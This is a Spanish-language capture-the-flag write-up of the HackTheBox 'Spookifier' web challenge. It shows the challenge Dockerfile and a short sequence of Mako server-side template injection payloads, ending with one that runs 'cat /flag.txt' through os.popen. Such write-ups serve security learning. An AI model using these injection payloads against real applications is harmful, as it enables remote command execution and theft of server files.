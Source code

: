 ```yaml
---
title: "HackTheBox - Challenge Spookifier"
summary: "Vamos a ver el paso a paso detallado de como ir resolviendo el challenge:"
date: "2025-04-01"
draft: false
tags:
- Tutorial
- HackTheBox
- Challenge
- Web
---
```


### Paso a paso:


- Enciendo el entorno virtual y entro a la direccion que me proporcionan: 
    ![Test Relative Image](./imagen.png)

<div style="height: 5px;"></div>

- Descargo el archivo .zip que me dan para el ejercicio.

<div style="height: 5px;"></div>

- Lo muevo a mi carpeta de trabajo.

<div style="height: 5px;"></div>

- Y lo descomprimo usando unzip, acordarse que la contrasena siempre va a ser 
    "hackthebox": 
    ![Test Relative Image](./imagen2.png)

<div style="height: 5px;"></div>

- Entro al archivo y empiezo a mirar:
```js
┌──(root㉿kali)-[/home/joaquin/HTB/Challenge]
└─# ls
crypto_alphascii_clashing  plasma  rev_graverobber  rev_spookypass   web_spookifier
                            
┌──(root㉿kali)-[/home/joaquin/HTB/Challenge]
└─# cd web_spookifier
                                                                            
┌──(root㉿kali)-[/home/joaquin/HTB/Challenge/web_spookifier]
└─# ls
build-docker.sh  challenge  config  Dockerfile  flag.txt
```

<div style="height: 5px;"></div>

- En dockerfile veo que me dice que la flag esta en el directorio /flag.txt:
```js
┌──(root㉿kali)-[/home/joaquin/HTB/Challenge/web_spookifier]
└─# cat Dockerfile   
FROM python:3.8-alpine

RUN apk add --no-cache --update supervisor gcc
# Upgrade pip
RUN python -m pip install --upgrade pip

# Install dependencies
RUN pip install Flask==2.0.0 mako flask_mako Werkzeug==2.0.0

# Copy flag
COPY flag.txt /flag.txt

# Setup app
RUN mkdir -p /app

# Switch working environment
WORKDIR /app

# Add application
COPY challenge .

# Setup supervisor
COPY config/supervisord.conf /etc/supervisord.conf

# Expose port the server is reachable on
EXPOSE 1337

# Disable pycache
ENV PYTHONDONTWRITEBYTECODE=1

# start supervisord
ENTRYPOINT ["/usr/bin/supervisord", "-c", "/etc/supervisord.conf"] 
```

<div style="height: 5px;"></div>

- Además veo que usa python y una distro de python que es mako.

<div style="height: 5px;"></div>

- Busco PayloadsAllTheThings, que es un directorio de payloads.

<div style="height: 5px;"></div>

- Entro a Server Side Template Injection y busco una versión mas vieja para 
    que este mas ordenado.

<div style="height: 5px;"></div>

- Empiezo a probar payloads y descubro que:
    ${self.module.runtime.util.os.system("id")}

<div style="height: 5px;"></div>

- Pareciera funcionar y le cambio por :
    ${self.module.runtime.util.os.popen('id').read()}

<div style="height: 5px;"></div>

- Como en dockerfile decia que la flag estaba en el directorio /flag le hago un cat:
    ${self.module.runtime.util.os.popen('cat /flag.txt').read()}

<div style="height: 5px;"></div>

- Y descubro la flag:
    ![Test Relative Image](./imagen5.png)